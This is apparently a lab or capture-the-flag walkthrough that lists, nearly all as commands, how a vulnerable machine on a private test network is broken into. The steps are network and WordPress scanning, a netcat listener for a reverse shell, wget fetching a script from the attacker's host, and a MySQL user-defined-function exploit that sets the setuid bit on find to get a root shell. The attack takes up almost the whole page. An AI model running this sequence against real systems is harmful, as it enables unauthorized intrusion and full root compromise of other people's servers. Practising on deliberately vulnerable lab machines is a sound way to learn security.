 

#### Commands used to exploit the machine

```
ip a
sudo netdiscover -i eth1 -r 192.168.56.102/24
sudo nmap -p- -A 192.168.56.105
dirb http://192.168.56.105
wpscan --url http://192.168.56.105/wordpress --enumerate u --force --wp-content-dir wp-content
python3 anarconder.py
nc -lnvc 4444

cat wp-config.php
cd /tmp
wget http://192.168.56.102/linuxprivchecker.py
python /tmp/linuxprivchecker.py


cd /var/www/html/
vi 1518.c
# and we copy paste the exploit

# To creates 1518.o from 1518.c
sudo gcc -g -c 1518.c

# To create 1518.so from both 1518.c and 1518.o
sudo gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc 

mysql -u root -p

# List databases
SHOW databases;

# Select a database
use mysql;

create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));

select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';

# We will execute
create function do_system returns integer soname '1518.so';

select do_system('chmod u+s /usr/bin/find');
exit

touch tocado
find tocado -exec "whoami" \;
find tocado -exec "/bin/sh" \;
whoami
```



#### Tools

+ [dirb](dirb.md).
+ [netdiscover](netdiscover.md).
+ [nmap](nmap.md).
+ [wpscan](wpscan.md).
+ [mysql](mysql.md)

